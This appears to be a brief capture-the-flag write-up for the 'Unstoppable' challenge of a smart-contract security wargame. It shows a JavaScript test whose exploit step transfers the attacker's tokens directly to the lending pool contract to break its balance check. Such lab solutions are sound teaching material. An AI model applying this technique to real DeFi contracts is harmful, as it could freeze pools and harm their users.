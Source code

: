 # 1 - Unstoppable

### Scripted Solution

```javascript
it('Exploit', async function () {
  // Send tokens to pool contract address via token contract's `transfer`
  await this.token
    .connect(attacker)
    .transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE)
})
```

